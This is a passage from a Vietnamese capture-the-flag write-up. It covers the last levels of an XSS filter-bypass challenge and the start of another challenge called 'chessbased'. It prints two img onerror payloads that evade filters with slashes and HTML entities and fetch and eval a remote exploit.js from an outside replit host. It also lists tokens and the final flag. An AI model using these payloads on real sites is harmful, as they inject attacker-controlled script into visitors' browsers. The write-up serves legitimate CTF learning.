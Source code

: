 ![image](https://hackmd.io/_uploads/BkO8zk5YJg.png)

Vì thế mình chỉ cần xóa các dấu cách thừa không cần thiết và các attribute có thể dễ dàng bypass bằng dấu /

```html 
<img/src="x"/oonnerror="fetch('https://9288206c-d9c3-4819-83d6-28c85eb8d228-00-1nbm4b0t9pkbs.spock.replit.dev/exploit.js').then(r=&gt;r.text()).then(data=&gt;eval(data))"/
```

![image](https://hackmd.io/_uploads/HykFGJ9Yyx.png)


Submit purell-token{wh3n_th3_imp0st4_i5_5u5_bu7_th3r35_n0_sp4c3} và mình có part 6 của flag : un1v3rs3

Tiếp đến level 6 web cấm luôn cả ( ,[, ] và )

![image](https://hackmd.io/_uploads/BkR5GkqKkg.png)

Lúc này mình chỉ cần thay HTML entities như nãy là xong

![image](https://hackmd.io/_uploads/H15J7ycYyx.png)

Và chúng ta có payload như sau : 

```html
<img/src="x"/oonnerror="fetch&#x28;'https://9288206c-d9c3-4819-83d6-28c85eb8d228-00-1nbm4b0t9pkbs.spock.replit.dev/exploit.js'&#x29;.then&#x28;r=&gt;r.text&#x28;&#x29;&#x29;.then&#x28;data=&gt;eval&#x28;data&#x29;&#x29;" /
```

![image](https://hackmd.io/_uploads/rk2c7J9Ykg.png)

Submit purell-token{y0u_4r3_th3_0n3_wh0_c4ll5} và mình có part 7 của flag : _1nf3c71ng_3v34y_1}

![image](https://hackmd.io/_uploads/ry-67JqFJe.png)

Và chúng ta đã vượt qua 7 level của challenge này và có flag sau : 

`Flag: lactf{1_4m_z3_b3s7_x40ss_h4nd_g34m_4cr0ss_411_t1m3_4nd_z_un1v3rs3_1nf3c71ng_3v34y_1}`

Sau đây là các bài mình làm thêm 
         
## chessbased

![image](https://hackmd.io/_uploads/By7D_V0K1e.png)

### Source 

https://drive.google.com/file/d/1I0QfbX2bZvblRO_vYjmdgXNFxKj2dimh/view?usp=sharing

### Hints

Insecure route
